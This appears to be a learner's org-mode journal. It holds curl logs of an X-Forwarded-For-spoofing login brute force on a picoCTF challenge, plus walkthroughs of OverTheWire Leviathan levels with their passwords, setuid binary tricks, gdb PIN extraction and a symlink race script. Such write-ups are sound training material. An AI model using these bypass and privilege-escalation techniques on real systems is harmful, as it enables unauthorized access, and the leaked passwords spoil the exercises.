> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:24 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.12
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:25 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.13
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:26 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.14
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:27 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.15
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:27 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     70 --:--:-- --:--:-- --:--:--    92
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.16
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:28 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     21     69 --:--:-- --:--:-- --:--:--    90
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.17
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:29 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.18
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:30 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     93 --:--:-- --:--:-- --:--:--   121
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}Note: Unnecessary use of -X or --request, POST is already inferred.
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0*   Trying 3.23.68.152:57780...
,* Connected to amiable-citadel.picoctf.net (3.23.68.152) port 57780 (#0)
> POST /login HTTP/1.1
> Host: amiable-citadel.picoctf.net:57780
> X-Forwarded-For: 1.2.3.19
> User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:143.0) Gecko/20100101 Firefox/143.0
> Accept: */*
> Accept-Language: en-US,en;q=0.5
> Accept-Encoding: gzip, deflate
> Referer: http://amiable-citadel.picoctf.net:57381/
> Content-Type: application/json
> Origin: http://amiable-citadel.picoctf.net:57381
> Connection: keep-alive
> Priority: u=0
> Content-Length: 56
> 
} [56 bytes data]
100    56    0     0  100    56      0    238 --:--:-- --:--:-- --:--:--   238< HTTP/1.1 200 OK
< X-Powered-By: Express
< Content-Type: application/json; charset=utf-8
< Content-Length: 17
< ETag: W/"11-UIVUdQWNarX1D9mk06okyEMbpS8"
< Date: Mon, 20 Oct 2025 23:52:30 GMT
< Connection: keep-alive
< Keep-Alive: timeout=5
< 
{ [17 bytes data]
100    73  100    17  100    56     28     92 --:--:-- --:--:-- --:--:--   120
,* Connection #0 to host amiable-citadel.picoctf.net left intact
{"success":false}
#+end_example

picoCTF{xff_byp4ss_brut3_1cc3b76e}

** Seinfeld Checkmark

[[file:images/2025-10-20_seinfeld.jpeg]]

* [2025-10-19 Sun]

Worked on more challenges today.
Made it a point of creating /tools/ in Emacs to make it easier.
Weakest link is emotional regulation: I get anxious too easy, too fast, and this really clouds my thinking, and makes it more difficult to work on ergonomy and posture.

** feat: add Seinfeld Checkmark 

[[file:images/2025-10-19_seinfeld.jpeg]]

* [2025-10-18 Sat]

Took a step back, and worked on fundamentals, and also cleared my mind.
It paid off: could solve yesterday's "humbling" challenge and some more today.

** Seinfeld Checkmark

[[file:images/2025-10-18_seinfeld.jpeg]]

* [2025-10-17 Fri]

Tough day today.

Took a beating on two CTFs; one expected, and the other humbling...

** Seinfeld Checkmark

[[file:images/2025-10-17_seinfeld.jpeg]]

* [2025-10-16 Thu]

** CSS: we got assignment!

- [X] [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/block-and-inline/01-margin-and-padding-1][01-margin-and-padding-1]]
- [X] [[https://github.com/rafaelbeirigo/odin-css-exercises/tree/main/foundations/block-and-inline/02-margin-and-padding-2][02-margin-and-padding-2]]

** Pomodoro

I may have spent more time than I should have "sharpening this axe"...
Anyway, need a command-line Pomodoro?

*** ~pomodoro~

#+begin_src shell :noweb no
#!/bin/bash

ME=$(basename $0)

if [ $# -eq 1 ] && ( [ $1 == "-h" ] || [ $1 == "--help" ] )
then
    echo "Usage: $ME [POPUP_NOTIFICATION [OSD_COUNTDOWN [TITLE]]]

POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).
TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.

Boolean values should be \"true\" or \"false\"."
    exit 0
fi

[ $# -ge 1 ] && POPUP_NOTIFICATION=$1 || POPUP_NOTIFICATION=false
[ $# -ge 2 ] && OSD_COUNTDOWN=$2 || OSD_COUNTDOWN=true
[ $# -ge 3 ] && TITLE=$3 || TITLE="Pomodoro"

BIG_INTERVAL="25m"
SHORT_INTERVAL="5m"

TIMER_ARGS="$TITLE $POPUP_NOTIFICATION $OSD_COUNTDOWN"
while [ true ]
do
    timer $BIG_INTERVAL $TIMER_ARGS
    timer $SHORT_INTERVAL $TIMER_ARGS
done
#+end_src

*** ~timer~

#+begin_src shell :noweb no
#!/bin/bash

ME=$(basename $0)

USAGE="Usage: $ME TIME_AMOUNT [TITLE [POPUP_NOTIFICATION [OSD_COUNTDOWN]]]

TITLE (string; default: \"Pomodoro\")
     is the headliner of the popup notification.
POPUP_NOTIFICATION (boolean; default: \"false\")
    Controls if a popup will be shown when time is up.
OSD_COUNTDOWN (boolean; default: \"true\")
    Controls if the countdown will be show on screen (using OSD).

Boolean values should be \"true\" or \"false\"."

if [ $1 == "-h" ] || [ $1 == "--help" ]
then
    echo "$USAGE"
    exit 0
fi

die () {
    echo >&2 "$@"
    exit 1
}

[ $# -ge 1 ] && TIME=$1 || die $USAGE
[ $# -ge 2 ] && TITLE=$2 || TITLE="Timer"
[ $# -ge 3 ] && POPUP_NOTIFICATION=$3
[ $# -ge 4 ] && OSD_COUNTDOWN=$4

OSD_CAT_FLAGS='--pos=top --align=right --delay=60 --shadow=3 --outline=0 --outlinecolour=black --color=cyan --font=-misc-fixed-medium-r-normal--75-*-*-*-*-*-*'

# Determine the unit for the time (minutes or seconds, default to minutes)
UNIT=${TIME: -1}
if [[ $UNIT = @(m|s) ]];
then
    DIGITS=${TIME::-1}
else
    UNIT=m
    DIGITS=$TIME
fi

for TIC in $(seq ${DIGITS} -1 1);
do
    # Display remaining time on the terminal
    echo Remaining: $TIC$UNIT

    # Display remaining time via OSD
    if $OSD_COUNTDOWN
    then
        echo "${TIC}${UNIT}" | osd_cat $OSD_CAT_FLAGS &
    fi

    sleep 1$UNIT
done

# Pop-up notification at the end of the timer
if $POPUP_NOTIFICATION
then
    notify-send --urgency=critical \
                --expire-time=0 \
                "$TITLE" \
                "Time ($TIME) is up."
fi

# Give an audible cue that the timer is done
ding
#+end_src

*** ~ding~

#+begin_src shell :noweb no
#!/bin/bash

mocp --play /usr/share/sounds/freedesktop/stereo/complete.oga
#+end_src

** Seinfeld Checkmark

[[file:images/2025-10-16_seinfeld.jpeg]]

* [2025-10-15 Wed]

** CSS

Studied the Box Model.
This time with exercises: much better.

** CTF

Back to overthewire.
picoCTF helped.
It fealt really easier today.
picoCTF /teaches/ things like how to use gdb.
I could think of many different approaches today because of that.

Finished Leviathan \o/
Loved the challenges!

*** overthewire.org

**** 3

f0n8h2iWLP

- setuid binary in home folder
- ~ltrace~ showed a call to ~strcmp~ with the payload
- input payload gives setuid shell

#+begin_example
leviathan3@leviathan:~$ ltrace ./level3 
fgets(Enter the password> snlprintf
"snlprintf\n", 256, 0xf7fae5c0)                                                                               = 0xffffd24c
strcmp("snlprintf\n", "snlprintf\n")                                                                                = 0
puts("[You've got shell]!"[You've got shell]!

leviathan3@leviathan:~$ ./level3
Enter the password> snlprintf
[You've got shell]!
$ id
uid=12004(leviathan4) gid=12003(leviathan3) groups=12003(leviathan3)
$ cat /etc/leviathan_pass/leviathan4
#+end_example

**** 4

WG1egElCvO

#+begin_example
leviathan4@leviathan:~$ ll
total 24
drwxr-xr-x   3 root root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root root       3851 Oct 14 09:19 .bashrc
-rw-r--r--   1 root root        807 Mar 31  2024 .profile
dr-xr-x---   2 root leviathan4 4096 Oct 14 09:27 .trash/
leviathan4@leviathan:~$ find .trash/
.trash/
.trash/bin
leviathan4@leviathan:~$ cd .trash/
leviathan4@leviathan:~/.trash$ ll
total 24
dr-xr-x--- 2 root       leviathan4  4096 Oct 14 09:27 ./
drwxr-xr-x 3 root       root        4096 Oct 14 09:27 ../
-r-sr-x--- 1 leviathan5 leviathan4 14940 Oct 14 09:27 bin*
leviathan4@leviathan:~/.trash$ file bin
bin: setuid ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=52e379ac2e364243895250cb84038a8bf5d3e4e5, for GNU/Linux 3.2.0, not stripped
leviathan4@leviathan:~/.trash$ ./bin
00110000 01100100 01111001 01111000 01010100 00110111 01000110 00110100 01010001 01000100 00001010 
#+end_example

There's a binary that prints a binary sequence.
Converted to ASCII, it give the next password.

**** 5

0dyxT7F4QD

There is a setuid binary in the home folder.

#+begin_example
leviathan5@leviathan:~$ ./leviathan5 
Cannot find /tmp/file.log
#+end_example

It wants a file.

#+begin_example
leviathan5@leviathan:~$ echo "abcdefg" > /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
abcdefg
#+end_example

It spills out that file's contents.

#+begin_example
leviathan5@leviathan:~$ ln -s /etc/leviathan_pass/leviathan6 /tmp/file.log
leviathan5@leviathan:~$ ./leviathan5 
szo7HDB88w
#+end_example

**** 6

szo7HDB88w

***** DONE ~strings~ in the binary?  No

***** Can I use gdb to see the pin code?

#+begin_src shell :noweb no
leviathan6@leviathan:~$ gdb --args ./leviathan6 1234
#+end_src

After ~disassemble main~, I could see there's a comparison followed by ~jne~.

#+begin_example
=> 0x0804921a <+84>:    cmp    %eax,-0xc(%ebp)
   0x0804921d <+87>:    jne    0x804924a <main+132>
#+end_example

Maybe it's here they're testing the input for equality.

Examining the registers

#+begin_example
(gdb) info registers
eax            0x4d2               1234
ebp            0xffffd368          0xffffd368
#+end_example

- ~eax~ has the input
- ~ebp~ has a memory address
  - the comparison offsets that address by ~0xc~


Examining the contents of that piece of memory:

#+begin_example
(gdb) x $ebp-0xc
0xffffd35c:     0x00001bd3
#+end_example

~0x1bd3~ == 7123

#+begin_example
leviathan6@leviathan:~$ ./leviathan6 7123
$ id
uid=12007(leviathan7) gid=12006(leviathan6) groups=12006(leviathan6)
$ cat /etc/leviathan_pass/leviathan7
qEs5Io5yM8
#+end_example

**** 7
qEs5Io5yM8

#+begin_example
leviathan7@leviathan:~$ ll
total 24
drwxr-xr-x   2 root       root       4096 Oct 14 09:27 ./
drwxr-xr-x 150 root       root       4096 Oct 14 09:29 ../
-rw-r--r--   1 root       root        220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root       3851 Oct 14 09:19 .bashrc
-r--r-----   1 leviathan7 leviathan7  178 Oct 14 09:27 CONGRATULATIONS
-rw-r--r--   1 root       root        807 Mar 31  2024 .profile
#+end_example

** Seinfeld Checkmark

[[file:images/2025-10-15_seinfeld.jpeg]]

* [2025-10-14 Tue]

The slope got steep at overthewire.org.
Went to picoCTF for some structured intro.
Today I read the Primer and worked on some playlists:
- The Beginner's Guide to the picoGym: 25/25
- Cryptography and picoGym Learning Intro 1/15
- Low Level Binary Intro 38/46
- Forensics in CTF's 6/17
- Python in CTF's 13/19
- Vault Door Series 1/8
- Sleuthkit Series 2/2
- PW Crack Series 5/5

** Seinfeld Checkmark

[[file:images/2025-10-14_seinfeld.jpeg]]

* [2025-10-13 Mon]

Some [[https://overthewire.org/][bit scrubbing]] (these last days) and today!

** Leviathan

*** Intro

#+begin_quote
Leviathan’s levels are called leviathan0, leviathan1, … etc. and can be accessed on

leviathan.labs.overthewire.org through SSH on port 2223.

To login to the first level use:

Username: leviathan0
Password: leviathan0

Data for the levels can be found in the homedirectories. You can look at /etc/leviathan_pass for the various level passwords.
#+end_quote

*** Functions

**** Automatically assemble SSH command from given user and password (C-. C-.)

#+begin_src elisp :results none :noweb no
(defun hack-ctf-overthewire-dot-org-leviathan-ssh-command
    (arg user password)
  "Read USER and PASSWORD then return complete ssh command.
When ARG in non-nil do not use comman `sshpass' to automatically
send PASSWORD to `ssh'.  Apparently the first connection must be
established the old way."
  (interactive
   (list
    current-prefix-arg
    (read-string "user: "
                 "leviathan" ;; challenge's prefix
                 hack-ctf-user-history)
    (read-string "password: " nil
                 hack-ctf-password-history)))
  (let* ((challenge-subdomain "leviathan")
         (challenge-port "2223")
         (url (concat challenge-subdomain ".labs.overthewire.org"))
         (ssh-command (concat
                       (unless arg (concat "sshpass -p " password " "))
                       "ssh " url
                       " -p " challenge-port
                       " -l " user)))
    (kill-new ssh-command)
    (message "hack-ctf: ssh command copied to clipboard")
    (sleep-for 2)
    (if (and arg (yes-or-no-p "copy password to clipboard now?"))
        (kill-new password))))
(keymap-local-set "C-. C-."
                  'hack-ctf-overthewire-dot-org-leviathan-ssh-command)
#+end_src

*** 0 (I /have/ the password for leviathan0 and /want/ the one for leviathan1)
leviathan0

#+begin_example
leviathan0@leviathan:~/.backup$ cat bookmarks.html
#+end_example

#+begin_example
<DT><A HREF="http://leviathan.labs.overthewire.org/passwordus.html | This will be fixed later, the password for leviathan1 is 3QJ3TgzHDq" ADD_DATE="1155384634" LAST_CHARSET="ISO-8859-1" ID="rdf:#$2wIU71">password to leviathan1</A>
#+end_example

*** 1

3QJ3TgzHDq

#+begin_example
leviathan1@leviathan:~$ ll
total 36
drwxr-xr-x   2 root       root        4096 Aug 15 13:17 ./
drwxr-xr-x 150 root       root        4096 Aug 15 13:18 ../
-rw-r--r--   1 root       root         220 Mar 31  2024 .bash_logout
-rw-r--r--   1 root       root        3851 Aug 15 13:09 .bashrc
-r-sr-x---   1 leviathan2 leviathan1 15084 Aug 15 13:17 check*
-rw-r--r--   1 root       root         807 Mar 31  2024 .profile
#+end_example

#+begin_example
leviathan1@leviathan:~$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$
$ cat /etc/leviathan_pass/leviathan2
cat: /etc/leviathan_pass/leviathan2: Permission denied
$ whoami
leviathan1
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ pwd
/home/leviathan1
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ cat /etc/leviathan_pass/leviathan2
NsN1HwFoyN
#+end_example

If I run it without ltrace, it does not drop privileges.

#+begin_example
leviathan1@leviathan:~$ ltrace ./check <------------------------------------------------------------------------------------------------------------- WITH LTRACE
__libc_start_main(0x80490ed, 1, 0xffffd464, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1) <------------------------------------------------------------------------------- DROPPED PRIVILEGES
$ ltrace ./check
__libc_start_main(0x80490ed, 1, 0xffffd474, 0 <unfinished ...>
printf("password: ")                                                                                                                                = 10
getchar(0, 0, 0x786573, 0x646f67password: sex
)                                                                                                                   = 115
getchar(0, 115, 0x786573, 0x646f67)                                                                                                                 = 101
getchar(0, 0x6573, 0x786573, 0x646f67)                                                                                                              = 120
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
$ id
uid=12001(leviathan1) gid=12001(leviathan1) groups=12001(leviathan1)
$ 
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
leviathan1@leviathan:~$ ./check
password: sex
$ id
uid=12002(leviathan2) gid=12001(leviathan1) groups=12001(leviathan1)
#+end_example

*** 2

NsN1HwFoyN

**** Poke

***** Successful execution

#+begin_example
leviathan2@leviathan:~$ ltrace ./printfile .profile 
__libc_start_main(0x80490ed, 2, 0xffffd454, 0 <unfinished ...>
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
 <no return ...>
--- SIGCHLD (Child exited) ---
<... system resumed> )                                                                                                                              = 0
+++ exited (status 0) +++
#+end_example

***** Order of tests and calls

Previous one:

#+begin_example
strcmp("sex", "sex")                                                                                                                                = 0
geteuid()                                                                                                                                           = 12001
geteuid()                                                                                                                                           = 12001
setreuid(12001, 12001)                                                                                                                              = 0
system("/bin/sh"$ id
#+end_example

This one:

#+begin_example
access(".profile", 4)                                                                                                                               = 0
snprintf("/bin/cat .profile", 511, "/bin/cat %s", ".profile")                                                                                       = 17
geteuid()                                                                                                                                           = 12002
geteuid()                                                                                                                                           = 12002
setreuid(12002, 12002)                                                                                                                              = 0
system("/bin/cat .profile"# ~/.profile: executed by the command interpreter for login shells.
#+end_example

**** DONE Does it print the password file without tracing?  No

#+begin_example
leviathan2@leviathan:~$ ./printfile /etc/leviathan_pass/leviathan3 
You cant have that file...
#+end_example

**** DONE Does it get ~cat~ from PATH?  No

#+begin_example
leviathan2@leviathan:~$ export PATH=""
leviathan2@leviathan:~$ ./printfile .profile 
# ~/.profile: executed by the command interpreter for login shells.
# This file is not read by bash(1), if ~/.bash_profile or ~/.bash_login
# exists.
# see /usr/share/doc/bash/examples/startup-files for examples.
# the files are located in the bash-doc package.

# the default umask is set in /etc/profile; for setting the umask
# for ssh logins, install and configure the libpam-umask package.
#umask 022

# if running bash
if [ -n "$BASH_VERSION" ]; then
    # include .bashrc if it exists
    if [ -f "$HOME/.bashrc" ]; then
        . "$HOME/.bashrc"
    fi
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/bin" ] ; then
    PATH="$HOME/bin:$PATH"
fi

# set PATH so it includes user's private bin if it exists
if [ -d "$HOME/.local/bin" ] ; then
    PATH="$HOME/.local/bin:$PATH"
fi
#+end_example
**** DONE Printar link mutante.  SOLVED
#+begin_example
#!/bin/bash


LEV=/etc/leviathan_pass/leviathan
LEV2=${LEV}2
LEV3=${LEV}3
L=/tmp/chaves-L
PRINTFILE=/home/leviathan2/printfile

ln -sf $LEV2 $L
$PRINTFILE $L &
ln -sf $LEV3
#+end_example

#+begin_example
leviathan2@leviathan:~$ vi /tmp/chaves.sh

---

#!/bin/bash

ln -sf /etc/leviathan_pass/leviathan2 /tmp/chaves-L
/home/leviathan2/printfile /tmp/chaves-L &
ln -sf /etc/leviathan_pass/leviathan3 /tmp/chaves-L

---

leviathan2@leviathan:~$ /tmp/chaves.sh
leviathan2@leviathan:~$ f0n8h2iWLP
#+end_example
**** ChatGPT comments

